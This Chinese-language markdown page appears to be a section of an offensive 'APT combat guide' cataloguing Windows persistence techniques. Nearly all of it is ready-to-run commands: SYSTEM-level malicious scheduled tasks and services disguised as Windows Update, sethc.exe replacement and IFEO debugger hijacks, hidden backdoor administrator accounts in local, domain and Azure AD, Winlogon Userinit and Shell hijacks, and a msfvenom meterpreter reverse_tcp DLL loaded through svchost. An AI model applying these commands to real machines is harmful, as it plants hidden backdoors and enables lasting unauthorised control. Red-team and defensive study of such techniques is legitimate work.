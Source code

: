 ### Windows持久化

1. DLL劫持

参考[DLL劫持](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#dll%E5%8A%AB%E6%8C%81)

2. 计划任务

```bash
schtasks /create /tn "MaliciousTask" /tr "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /sc ONSTART /ru SYSTEM
schtasks /query /TN MaliciousTask /XML
schtasks /create /tn "MaliciousTaskDaily" /tr "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /sc DAILY /st 09:00 /ru SYSTEM
```

PowerShell:

```bash
$Action = New-ScheduledTaskAction -Execute "C:\malicious.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogon
$Settings = New-ScheduledTaskSettingsSet
$Settings.ExecutionTimeLimit = "PT0S"
Register-ScheduledTask -TaskName "MaliciousTaskLogon" -Action $Action -Trigger $Trigger -User "SYSTEM" -Settings $Settings
```

```bash
schtasks /delete /TN "MaliciousTask" /F
Unregister-ScheduledTask -TaskName "MaliciousTask" -Confirm:$false
```

```bash
SCHTASKS /Change /tn "\Microsoft\Windows\PLA\Server Manager Performance Monitor" /TR "C:\Users\Administrator\Desktop\test\payload\file\hi.exe" /RL HIGHEST /RU SYSTEM /ENABLE
```

3. 创建服务

```bash
sc create MaliciousService binPath= "C:\hi.exe" start= auto obj= LocalSystem DisplayName= "Windows Update Service"
or
New-Service -Name "MaliciousServicePS" -BinaryPathName "C:\malicious.exe" -Description "Windows Update Service" -StartupType Automatic
```

```bash
sc start MaliciousService
sc delete MaliciousService
```

4. 辅助功能

辅助功能的可执行文件位于C:\Windows\System32目录下，辅助功能的可执行文件如下所示:
+	屏幕键盘：osk.exe。用于在屏幕上显示虚拟键盘。在运行中的Windows系统中，可以通过在“运行”对话框中输入osk并按回车键来启动。
+	放大镜：Magnify.exe。用于放大屏幕内容，键入WIN+=可快速启动。
+	轻松访问：Utilman.exe。用于管理各种辅助功能，键入WIN+U可快速启动。
+	讲述人：Narrator.exe。一种屏幕阅读器，用于朗读屏幕上的文本，键入WIN+回车可快速启动。
+	屏幕切换：DisplaySwitch.exe。切换不同的显示模式，键入WIN+P可快速启动。
+	粘滞键：sethc.exe。帮助那些难以同时按下多个组合键（例如 Ctrl + Alt + Delete）的用户。开启粘滞键后，用户可以依次按下每个键，而不是同时按下，键入五次SHIFT可快速启动。

(1)替换可执行文件

```bash
takeown /F C:\Windows\System32\sethc.exe
icacls C:\Windows\System32\sethc.exe /grant Administrators:F
cmd.exe > sethc.exe
```

(2)修改注册表启动项

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "C:\hi.exe" /f
```

(3)Metasploit框架

```bash
run post/windows/manage/enable_rdp
use post/windows/manage/sticky_keys
```

5. 创建账户

```bash
net user backdoor Password123! /add /comment:"Hidden Account" /fullname:"System Administrator"
net localgroup Administrators backdoor /add
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v backdoor /t REG_DWORD /d 0 /f
```

```bash
New-LocalUser -Name "用户名" -NoPassword和Add-LocalGroupMember -Group "Administrators" -Member "用户名"
```

```bash
net user "hacker" "Password123!" /add /domain
net group "Domain Admins" "hacker" /add /domain
Get-ADUser -identity "hacker" -Properties memberof
```

```bash
$PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
$PasswordProfile.Password = "Password123!"

New-AzureADUser `
    -DisplayName "Snowwolf" `
    -PasswordProfile $PasswordProfile `
    -UserPrincipalName "Snowwolf@contoso.com" `
    -AccountEnabled $true `
    -MailNickName "Snowwolf"

Add-AzureADGroupMember -ObjectId "<ObjectID" -RefObjectId "<RefObject>"
```

6. NetShell Helper DLLs

参考[netsh-helper-dll](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%BA%94%E7%AB%A0/Readme.md#netsh-helper-dll)

7. Winlogon

(1)修改Userinit注册表项

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\hi.exe, C:\Windows\system32\userinit.exe" /f
```

(2)修改Shell注册表项

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "C:\hi.exe, explorer.exe" /f
```

(3)PowerShell

```bash
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, C:\hi.exe" -Force
or
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, C:\hi.exe" -Force
```

8. 利用Service DLL在svchost.exe中实现持久化

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP地址 LPORT=4444 -f dll > msf.dll
```

```bash
sc create MaliciousService binPath= "C:\Windows\system32\svchost.exe -k netsvcs" start= auto obj= LocalSystem DisplayName= "Malicious Service" depend= RPCSS
reg add "HKLM\SYSTEM\CurrentControlSet\Services\MaliciousService\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "C:\Users\snowwolf\msf.dll" /f
sc start MaliciousService
```

9. 屏幕保护程序劫持

msf.exe > scrnsave.scr</br>
              |</br>
              |</br>
              v</br>
C:\Windows\System32
